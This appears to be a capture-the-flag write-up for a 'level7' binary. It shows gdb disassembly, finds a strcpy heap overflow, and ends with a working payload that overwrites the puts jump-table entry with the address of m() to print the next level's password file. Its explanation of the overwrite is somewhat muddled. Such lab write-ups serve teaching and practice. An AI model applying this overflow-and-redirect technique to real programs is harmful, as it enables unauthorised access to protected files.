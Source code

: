 When running the program without arguments, we encountered a segmentation fault:
```
./level7
Segmentation fault (core dumped)
```
Upon trying with two arguments, we received a different response:
```
./level7 "eee" "ddd"
~~
```
We disassembled the program and found a global variable `c` and an unused function `m()`. The `m()` function prints the content of the variable `c`.

The `main()` function allocates two string pointers and uses `strcpy` to copy the content from `argv[1]` to `str1` and `argv[2]` to `str2`. Additionally, the program calls `fopen` to read a file from the path `/home/user/level8/.pass` and stores it in the global variable `c` using `fgets`. The program then calls `puts` to print the string `~~`.

We aim to exploit the program by redirecting the execution flow from the `puts` function to the `m()` function, which will print the contents of the global variable `c`.

First, we disassembled the main() function to find the call to `puts`:

```
(gdb) disass main
...
0x080485f0 <+207>:	movl   $0x8048703,(%esp)
0x080485f7 <+214>:	call   0x8048400 <puts@plt>
0x080485fc <+219>:	mov    $0x0,%eax
...
```

The address of the `jmp` instruction is `0x8049928`( `\x28\x99\x04\x08`).

We located the m() function's address using gdb:

```
(gdb) info functions
...
0x080484f4  m
0x08048521  main
...
```

The address of the `m()` function is `0x080484f4`(`\xf4\x84\x04\x08`).

To exploit the program, we need to overwrite the return address of the `puts` function with the address of the `m()` function.

We create the payload as follows:
```
./level7 $(python -c "print 'A' * 20 + '\x28\x99\x04\x08'") $(python -c "print '\xf4\x84\x04\x08'")
```
